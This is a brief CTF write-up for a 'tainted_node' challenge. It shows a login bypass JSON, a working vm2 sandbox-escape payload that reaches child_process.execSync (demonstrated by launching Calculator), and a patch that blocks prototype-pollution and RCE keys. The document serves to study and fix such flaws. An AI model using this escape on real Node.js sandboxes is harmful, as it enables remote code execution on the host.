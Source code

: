 ## tainted_node

### Attack

先 post

```json
{"username":"admin","password":"realpassword","logined":true}
```

然后没存 vm2 payload, 哈哈

[https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

```javascript
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('open -a Calculator');
}
```

### Patch

```javascript
function merge(target, source) {
    for (let key in source) {
        if (key === 'escapeFunction' || key === 'outputFunctionName') {
            throw new Error("No RCE")
        }
        if (key === "constructor" || key == '__proto__' || key == "prototype") {
            throw new Error("No pollution")
        }
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

......

app.all('/sandbox', (req, res) => {
    if (req.session.userInfo.logined != true || req.session.userInfo.username != "admin") {
        return res.redirect("/login")
    }
    
    const code = req.query.code || '';
    result = vm.run((code));
    if (result.match(/flag{.*}/)) {
        result = "hacker";
    }
```
